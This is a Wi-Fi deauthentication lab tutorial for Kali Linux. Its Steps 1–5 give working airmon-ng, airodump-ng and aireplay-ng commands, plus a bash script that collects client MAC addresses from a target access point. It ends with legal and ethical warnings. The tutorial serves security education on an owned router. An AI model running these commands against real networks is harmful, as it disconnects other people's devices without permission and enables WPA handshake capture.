








# Wi-Fi Deauthentication Attack Tutorial (Kali Linux)

> **Disclaimer:**  
> This tutorial is provided strictly for **educational purposes** and **authorized penetration testing**.  
> Do **not** use these tools on networks you do not own or have explicit permission to test.  
> Unauthorized use is **illegal** and may result in criminal prosecution.

---

## Table of Contents

- [Overview](#overview)
- [Prerequisites](#prerequisites)
- [Step 1: Enable Monitor Mode](#step-1-enable-monitor-mode)
- [Step 2: Discover the Target Access Point](#step-2-discover-the-target-access-point)
- [Step 25-attempting-an-attack](#step-25-attempting-an-attack)
- [Step 3: Isolate Clients Connected to the AP](#step-3-isolate-clients-connected-to-the-ap)
- [Step 4: Preforming the Deauthentication Attack](#step-4-preforming-the-deauthentication-attack)
- [Step 5: Bash Script to Automate Discovery](#step-5-bash-script-to-automate-discovery)
- [Final Thoughts](#final-thoughts)

---

## Overview

In this tutorial, you’ll learn how to:
- Enable monitor mode on a wireless adapter
- Use `airodump-ng` to find nearby Access Points and connected devices
- Target a specific AP and identify connected clients (stations)
- Use `aireplay-ng` to deauthenticate a client, useful for WPA handshake capture

---

## Prerequisites

- A computer running **Kali Linux**
- A **wireless adapter that supports monitor mode and packet injection**
  - In this lab I leverage the **HAK5 MK7AC WiFi Adapter**
- An access point that can use the WPA2-Personal protocol **AND** is using the 2.4GHz transmission frequency
  - In this lab I leverage the **NETGEAR R6400-100NAS** *Circa 2017*
*Note this lab hinges on these two commponents. I would recommend using an older router*
- Tools that already should be included in Kali:
  - `airmon-ng`
  - `airodump-ng`
  - `aireplay-ng`
- Superuser (`sudo`) privileges

---

## Step 1: Enable Monitor Mode

First, identify your wireless interface. As you can see below my inteface is called wlan0. Depending on how many wireless interfaces you have the one you want to choose may vary. 
*Note: I'm using root so I don't need to add sudo to my commands*

```bash
iwconfig
```


Next, using airmon-ng, part of the Aircrack-ng suite, is used for enabling and utilizing monitor mode. Essentially this mode lets the user monitor Wi-Fi traffic and capture packets. Now that it's in monitor mode the way to access this interface is via the **wlan0mon**. 

```bash
airmon-ng start wlan0
```



## Step 2: Discover the Target Access Point

Now that we have a wireless adapter that is in monitor mode it's time to determint the BSSID and Channel of the access point we are going to attack. Using the **wland0mon** interface we can begin to seach for these access points. Please be aware this only works on the 2.4GHz signal

```bash
sudo airodump-ng wlan0mon
```



After some time elaspse my router was able to be located aptly called **Lab_AP**. Noting the BSSID **A0:04:60:3A:1F:E5** and the channel, thrid column to the right **9** I have what I need to begin an attack.


## Step 2.5: Attempting an attack

Once you find the BSSID and Channel you can attempt a deauthentication attack against the access point's connected devices. However, it will try to spoof the MAC address of a device that's already connected. Unless you have the devices address it will be very difficult and require quite a bit of brute force to disconnect devices

First, make sure to set your wireless device in monitoring mode to the right channel otherwise it won't find the access point.

```bash
iwconfig wlan0mon channel <CH>
```




Leveraging the known BSSID you can attempt an attack.

```bash
aireplay-ng -0 100 -a <BSSID> wlan0mon
```
- -0 is the deauth attack type
- -100 is the  number of packets to send
- -a is the BSSID of the AP



*I tested this with an old device hooked up to the access point and attempted this blind attack twice resulted in failed dauthentcation of the device*

## Step 3: Isolate Clients Connected to the AP

Once you find the BSSID and Channel you can attempt a deauthentication attack against the access point's connected devices. However, this time we'll acquire the client's MAC address first. 

```bash
airodump-ng --bssid <BSSID> --channel <CH> --write capture wlan0mon
```



*Under the STATION column resides the MAC address of a device connected to the access point*

## Step 4: Preforming the Deauthentication Attack

After acquiring the MAC address you'll be able to begin the attack on the client device.

```bash
aireplay-ng -0 100 -a <BSSID> wlan0mon -c <CLIENT> wlan0mon
```

- -0 is the deauth attack type
- -100 is the  number of packets to send
- -a is the BSSID of the AP
- -c is the Client MAC address



**Before starting the attack**



**After the attack**



## Step 5: Bash Script to Automate Discovery

You can automate the process of discovery by using a shell script like this. It simply takes two parameters at runtime the BSSID and the Channel. 
- There's a 10 second time limit for a time out.
- We make the call to airodump-ng to start the process of finding the clients on the device and writing it to an output.
- Then we grep out what we want from the csv file from the first column and then using regex to match a MAC address from the csv file.
- The sort just removes duplicates.


```bash
#!/bin/bash

# Simple Client MAC Discovery Tool

MON=wlan0mon
BSSID=$1
CHANNEL=$2
DURATION=10

if [[ -z "$BSSID" || -z "$CHANNEL" ]]; then
    echo "Usage: $0 <BSSID> <Channel>"
    exit 1
fi

echo "[****] Scanning for clients connected to BSSID: $BSSID on channel $CHANNEL"
timeout $DURATION airodump-ng --bssid $BSSID --channel $CHANNEL --write scan_output --output-format csv $MON > /dev/null 2>&1

echo "[****] Extracting connected clients"
grep "$BSSID" scan_output-01.csv | awk -F ',' '{print $1}' | grep -E "([0-9A-Fa-f]{2}:){5}[0-9A-Fa-f]{2}" | sort -u

echo "[****] Done."

```


## Final Thoughts
This lab is a good way to get started in understanding how Deauthentication attacks work, why they are powerful, and the tools required. Below are a number of points regarding consequences, misuse, and ethical considerations. Please read them **very carefully** before attempting to use this type of attack.

### Legal, Ethical, and Personal Consequences of Using Wi-Fi Exploitation Tools

This document outlines the **risks and consequences** of using Wi-Fi auditing and penetration testing tools (such as `airodump-ng`, `aireplay-ng`, `aircrack-ng`, etc.) without proper authorization.

These tools are powerful and intended for ethical use only—such as **educational labs, authorized test environments, authorized penetration testing, or network diagnostics**.

---

### 1. Legal Consequences

Using wireless exploitation tools without permission is often **illegal**. Laws vary by country, but in most regions, unauthorized network scanning, monitoring, or disruption is considered a **criminal offense**.

### Examples by Region

| Country       | Law / Regulation                      | Violation Example                            |
|---------------|----------------------------------------|-----------------------------------------------|
| USA           | Computer Fraud and Abuse Act (CFAA)    | Capturing traffic on a neighbor's Wi-Fi       |
| UK            | Computer Misuse Act                    | Sending deauth packets to unknown APs         |
| EU            | GDPR + National Cybercrime Laws        | Logging MAC addresses without consent         |
| Other         | Many have cybercrime acts mirroring CFAA or CMA |

### Consequences Can Include:
- Fines or civil penalties
- Criminal prosecution and jail time
- Expulsion from school or certification programs
- Job loss or ineligibility for government clearance

---

### 2. Ethical Considerations

Even if you don’t get caught or prosecuted, **ethical misuse** can damage your credibility and harm others.

- You could disrupt users by forcing their devices offline (deauth attacks).
- You may invade someone's privacy by capturing unencrypted metadata or traffic.
- Other researchers or employers may blacklist you if you publish tools without disclaimers.

### Responsible Use Includes:
- Running tests **only in isolated lab environments**
- Getting **written permission** for all real-world testing
- Using MAC address anonymization if logging public scans
- Including warnings and disclaimers in your published code

---

### 3. Professional Consequences

Publishing or using these tools recklessly can:
- Hurt your reputation as a cybersecurity professional
- Cause rejection from job applications (especially in security-clearance roles)
- Get your GitHub account flagged or content removed
- Violate terms of use for hosting platforms (GitHub, GitLab, etc.)

On the other hand, **responsibly documenting and using** such tools can:
- Build your portfolio
- Demonstrate technical competence
- Contribute to open knowledge and responsible disclosure

---

### 4. Safe & Legal Ways to Test

You can practice legally by:
- Creating a **test lab** using spare routers and virtual machines
- Using platforms like [Hack The Box](https://www.hackthebox.com/) or [TryHackMe](https://tryhackme.com/)
- Setting up fake Wi-Fi environments with `hostapd` and `airmon-ng`
- Practicing MAC spoofing, deauths, and packet captures **only on test devices**

---

### Final Notes

This document is not legal advice. If you're unsure about what you're allowed to do, consult:
- A cybersecurity instructor or mentor
- Your school or workplace policy
- A local attorney with expertise in computer law

---

### References

- [CFAA Overview - Electronic Frontier Foundation](https://www.eff.org/issues/cfaa)
- [Aircrack-ng Documentation](https://www.aircrack-ng.org/documentation.html)
- [NIST Ethical Hacking Guidelines](https://csrc.nist.gov/publications/detail/sp/800-115/final)


